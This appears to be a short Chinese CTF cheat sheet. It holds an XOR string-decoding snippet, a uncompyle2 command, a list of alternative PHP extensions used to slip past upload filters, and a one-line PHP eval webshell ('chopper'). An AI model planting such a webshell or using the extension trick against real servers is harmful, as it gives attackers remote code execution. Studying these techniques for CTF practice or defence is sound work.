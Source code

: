 ##  将整数强制拆分为 string
```cpp
#include<cstdio>
#include<cstring>
#include<string>
using namespace std;
int main(){
	long long v7=28537194573619560;
	char *p=(char *)&v7;//chr指针
	char str[30];
	strcpy(str,":\"AL_RT^L*.?+6/46");
	for(int i=0;i<19;i++){
		str[i]=p[i%7]^str[i];
		printf("%c",str[i]);
	}
	return 0;
}
```
-----

## php 文件别名
php2, php3, php4, php5, phps, pht, phtm, phtml
## 一句话木马
```php
<?php @eval($_POST['chopper']);?>
```
## uncompyle2 用法
```bash
py -2 uncompyle2 -o as.py as.pyc
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTYwNjI4NDI1LC0xNDEwNjg2NjM3LDMzNT
U4MDgwOF19
-->